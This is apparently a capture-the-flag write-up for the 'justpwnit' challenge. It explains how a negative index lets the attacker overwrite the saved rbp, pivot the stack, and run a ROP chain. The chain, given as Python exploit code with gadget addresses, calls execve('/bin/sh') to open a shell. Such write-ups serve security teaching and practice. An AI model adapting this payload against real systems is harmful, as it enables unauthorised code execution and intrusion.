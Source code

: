 # justpwnit

## TLDR
### Vulnerability
* stack pivot
### How to attack
* overwrite old rbp value on stack
* execute rop chain 

## Challenge
### Description
result of file command
* Arch    : x86-64
* Library : Statically linked
* Symbol  : Not stripped

result of checksec
* RELRO  : Partial RELRO
* Canary : Disable
* NX     : Enable
* PIE    : Disable

### Exploit 
We can set index to negative value.  
So we can overwrite rbp value on stack to the address which has our input, and execute rop chain.  

A part of exploit
```python
rdi_ret = 0x408989
rsi_ret = 0x4019a3
rdx_ret = 0x4085b5
rax_ret = 0x408a26
syscall = 0x4013e9
mov_ptr_rdi_rsi_ret = 0x406c3c

def exploit():
	payload = p64(0)
	payload += p64(rdi_ret)
	payload += p64(addr_bss)
	payload += p64(rsi_ret)
	payload += b"/bin/sh\x00"
	payload += p64(mov_ptr_rdi_rsi_ret)
	payload += p64(rsi_ret)
	payload += p64(0)
	payload += p64(rdx_ret)
	payload += p64(0)
	payload += p64(rax_ret)
	payload += p64(59)
	payload += p64(syscall)

	conn.sendlineafter(": ", "-2")	
	conn.sendlineafter(": ", payload)	
	conn.interactive()	

if __name__ == "__main__":
	exploit()	
```

My exploit code is [solve.py](https://github.com/kam1tsur3/2021_CTF/blob/master/asis/pwn/just_pwn_it/solve.py).

## Reference

twitter: @kam1tsur3
